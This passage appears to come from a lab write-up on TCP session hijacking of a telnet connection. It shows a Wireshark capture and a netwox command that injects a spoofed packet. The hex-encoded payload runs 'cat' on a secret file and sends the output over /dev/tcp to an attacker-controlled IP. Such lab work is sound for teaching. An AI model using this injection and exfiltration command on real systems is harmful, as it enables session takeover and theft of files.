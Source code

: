 Since the last `telnet` packet from the server to the user captured by Wireshark is:

> Transmission Control Protocol, Src Port: 57640, Dst Port: 23, Seq: 1386528330, Ack: 1227064343, Len: 2
>     **Source Port: 57640**
>     Destination Port: 23
>     [Stream index: 0]
>     [TCP Segment Len: 2]
>     **Sequence number: 1386528330**
>     **[Next sequence number: 1386528332]**
>     **Acknowledgment number: 1227064343**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 237
>     [Calculated window size: 30336]
>     [Window size scaling factor: 128]
>     Checksum: 0x5fbc [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Ref to the [documentation] of `netwox` tool 40, run such a command with correct parameters on the attacker machine:

```
sudo netwox 40 -l "10.0.2.5" -m "10.0.2.4" -o 57640 -p 23 -q 1386528332 -E 2000 -r 1227064343 -z -H "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d"
```

And now we get the content of the secret file on the server:
